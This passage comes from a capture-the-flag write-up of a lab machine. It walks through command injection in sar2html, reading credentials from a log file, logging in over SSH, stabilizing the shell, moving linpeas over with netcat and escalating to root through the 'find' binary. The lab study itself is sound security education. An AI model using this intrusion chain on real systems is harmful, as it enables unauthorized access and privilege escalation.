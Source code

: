 My first thought of uploading a php shell to the sar2html directory didn't work, I'm assuming this is because sar2html expects files that AREN'T php files.

Despite this though, there is still a vulnerability! This [article](https://www.exploit-db.com/exploits/47204) shows us how we can abuse sar2html to execute arbitrary commands!

Following this article, let’s run a quick ls and see what happens:

![ls](https://github.com/NTHSec/CTF-Writeups/assets/150489159/a2ba95de-b324-42c8-94c9-7ceed9f8a6ac)

Our ls shows that we have a file called log.txt. Running `cat` in the same manner we get some credentials!

![cat log](https://github.com/NTHSec/CTF-Writeups/assets/150489159/3e18402b-605a-4b40-971b-1bfdac2e63d7)

Looking back earlier, we know that we have an SSH port open on port 55007! Let’s try out these credentials.

basterd:superduperp@$$

![ssh](https://github.com/NTHSec/CTF-Writeups/assets/150489159/071758ba-6ffa-4967-8f41-354b0e69cf7f)

we’re in! Let’s stabilize our shell.

`python3 -c 'import pty;pty.spawn("/bin/bash")'` 

Taking a look at the users on this box, we have root and stoner.

![etc passwd](https://github.com/NTHSec/CTF-Writeups/assets/150489159/8a02d8bf-a903-4de2-89c3-fb6cfc0886fd)

# Lateral Movement / Privilege Escalation

Now that we have our initial foothold, it is time to try and move to the stoner user, and then from there escalate to root.

Our first step is to run linpeas.

### Victim Machine:
`nc -lnvp 1234 > linpeas.sh`

### Attacker Machine:
`nc {victim_ip} 1234 < linpeas.sh`

Now you have linpeas on the victim machine. We can give it executable permissions with `chmod +x linpeas.sh`, and run it with `./linpeas.sh`.

Looks like linpeas found something!

![linpeas](https://github.com/NTHSec/CTF-Writeups/assets/150489159/7ffeeedb-8460-4ce2-b8db-fb70e22641fe)

Here is the GTFO bins page for the `find` binary:

![gtfobins](https://github.com/NTHSec/CTF-Writeups/assets/150489159/e7826a05-0e1d-4c39-bec0-def05228c939)

If we run the second command we have root!

